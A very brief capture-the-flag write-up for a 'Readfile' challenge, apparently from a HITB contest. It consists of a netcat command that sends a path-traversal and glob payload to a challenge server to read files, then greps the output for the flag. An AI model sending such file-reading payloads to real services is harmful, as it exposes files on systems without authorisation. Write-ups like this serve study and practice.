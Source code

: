 # Readfile writeup

I used command

`python -c "print ';../../???/??? ../*/*' | nc 47.75.148.60 9999 > d`

then

cat d | grep -i "hitb"

